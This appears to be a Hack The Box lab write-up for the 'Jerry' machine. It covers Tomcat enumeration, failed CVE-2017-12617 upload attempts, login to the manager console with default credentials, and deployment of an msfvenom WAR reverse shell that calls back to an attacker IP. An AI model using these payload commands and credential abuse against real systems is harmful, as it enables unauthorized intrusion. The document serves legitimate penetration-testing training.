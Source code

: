 # Tomcat

## Webpage

The website, on `http://10.10.10.95:8080`, is just the default page for Apache Tomcat:

![[Pasted image 20210504124212.png]]

### Shell Page

Navigating to `http://10.10.10.95/shell/` returns a blank white page:

![[Pasted image 20210504131221.png]]

There is nothing in the source:

![[Pasted image 20210504131242.png]]

## Tomcat Version

The version number is exposed both in the `nmap` scan and on the page itself. Let's search Exploit DB:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/jerry]
└─$ searchsploit tomcat 7.0
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat 7.0.4 - 'sort' / 'orderBy' Cross-Site Scripting                                                                                                          | linux/remote/35011.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                                           | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                                           | jsp/webapps/42966.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We might be able to upload a JSP shell.

## Trying CVE-2017-12617 Exploit

Looking at the exploit with `searchsploit -x jsp/webapps/42966.py`, it seems to reference CVE-2017-12617, which it uses to upload a webshell:

![[Pasted image 20210504124851.png]]

The code seems to generate a JSP payload and upload it directly to the box, using the following two methods:

![[Pasted image 20210504124931.png]]

### Running the Exploit

I initially thought that we had to generate our own shellcode in JSP to point back to our box, and that the exploit just uploads the file. However, it turns out the program actually generates a shell. The `pwn` parameter seems to be just a filename.

Nevertheless, I will quickly go over what I did to generate a `.jsp` shell payload:
- I ran some quick [[Writeups/Hack the Box/Boxes/Jerry/5 - Enumeration#Enumerating OS|OS Enumeration]] to check the operating system, as I wasn't sure at this point (we can cheat and look at the box info on HTB, but that's no fun)
- Created a payload with `msfvenom --f jsp -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -o shell.jsp`
- Started a [[netcat]] listener and tried running the exploit with `python2 42966.py -u http://10.10.10.95:8080 -p shell.jsp`

I changed my syntax, just providing the name `shell`. However, running it again with these options just gave me a 404 `resource is not available` error:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/jerry]
└─$ python2 42966.py -u http://10.10.10.95:8080 -p shell



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ id

Apache Tomcat/7.0.88 - Error report

 
HTTP Status 404 - /shell.jsp

type
 Status report
message
 
/shell.jsp

description
 
The requested resource is not available.

Apache Tomcat/7.0.88
```

I also tried navigating to it in browser at `http://10.10.10.95/shell.jsp`, and even tried `http://10.10.10.95/shell/shell.jsp` in case it went to that directory - but both of these also gave me a 404.

Looking at the [CVE details](https://access.redhat.com/security/cve/cve-2017-12617), the resource needs to not be in readonly mode, and allow `PUT` requests:

![[Pasted image 20210504132129.png]]

This also states that it only affects Linux machines. So we may be barking up the wrong tree.

## Alternate Exploit

The other option, `windows/webapps/42953.txt`, seems to be tailored to windows. Running `searchsploit -x windows/webapps/42953.txt` gives an overview of the request structure needed.

![[Pasted image 20210504132312.png]]

I pasted this directly into Burp Repeater, and just had to configure the host:

![[Pasted image 20210504133101.png]]

My first attempt gave me a blank response, so I made sure to change the referer header to match the current IP just in case, and sent again:

![[Pasted image 20210504133324.png]]

The response was also blank, so I just went and checked if the shell had been uploaded. However, `http://10.10.10.95/1.jsp` also gave me a 404.

## Manager Console

I decided to change my strategy and look at something else. I went back to the main site, and navigated to the manager app.

Here I was prompted for some credentials. I tried the default login for Tomcat, `tomcat`:`s3cret`:

![[Pasted image 20210504133752.png]]

I was in!

### WAR File Shell

Now the next step was to use this to upload a shell. Scrolling down there was an option to deploy a WAR file:

![[Pasted image 20210504133840.png]]

I did a quick check in `/usr/share/webshells` to see if there was a folder for `WAR` files, but there wasn't - so I went to `msfvenom` instead:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/jerry]
└─$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -f war -o warshell.war
Payload size: 13400 bytes
Final size of war file: 13400 bytes
Saved as: warshell.war
```

I found a good guide when searching "kali war shell" that took me through this process: [https://www.ethicaltechsupport.com/blog-post/apache-tomcat-war-backdoor/](https://www.ethicaltechsupport.com/blog-post/apache-tomcat-war-backdoor/)

I then selected the file on my box and clicked deploy:

![[Pasted image 20210504135209.png]]

We can then visit `http://10.10.10.95/warshell`:

![[Pasted image 20210504135400.png]]

Which spawns a shell:

![[Pasted image 20210504142751.png]]

And we can grab both flags:

![[Pasted image 20210504143146.png]]

That's the box!

![[Pasted image 20210504145745.png]]

# Tags

#writeup #oscp-prep #windows #file-upload #tomcat